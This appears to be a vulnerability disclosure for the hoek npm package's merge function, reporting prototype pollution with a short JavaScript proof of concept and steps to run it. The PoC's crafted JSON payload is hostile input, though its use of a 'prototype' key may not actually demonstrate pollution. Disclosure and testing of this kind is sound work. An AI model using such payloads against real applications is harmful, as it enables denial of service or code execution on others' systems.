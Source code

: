 # Description
hoek package is vulnerable to prototype pollution issue 
file can be found in https://github.com/hapijs/hoek/blob/master/lib/merge.js
# Proof of Concept 
1. Creating poc file namely poc.js
```js
var utils = require('hoek');
var src = {};
let object = utils.merge({}, JSON.parse('{ "myProperty": "a", "prototype" : { "isAdmin" : true } }'));
console.log(object.prototype.isAdmin);
```
2. Execute command npm install hoek
3. Execute command node poc.js
* https://drive.google.com/file/d/1Vcy1bmKPcaeADxz3EAopuO3cZMlanYcX/view?usp=sharing
# Impact
Prototype pollution which could lead to DOS and RCE
